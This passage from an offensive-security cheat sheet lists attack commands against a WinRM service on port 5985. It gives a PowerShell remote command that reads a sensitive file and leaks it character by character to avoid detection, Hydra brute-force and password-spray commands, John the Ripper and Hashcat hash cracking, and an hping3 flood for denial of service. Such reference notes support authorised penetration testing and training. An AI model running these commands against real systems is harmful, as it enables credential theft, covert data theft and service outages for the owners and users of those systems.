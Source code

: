 *   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -UseSSL -ScriptBlock { $data = Get-Content C:\SensitiveData.txt; foreach ($char in $data) { Write-Host $char -NoNewline; Start-Sleep -Milliseconds 50 } }
    ```
* **Description:** Exfiltrates data character by character to avoid large, detectable transfers.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s 5985 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s 5985 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Offline Hash Cracking

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```

\


*   **Tool:** \[\[HashCat Cheat Sheet]]

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```
* **Description:** Cracks dumped password hashes to gain access.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p 5985 --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.
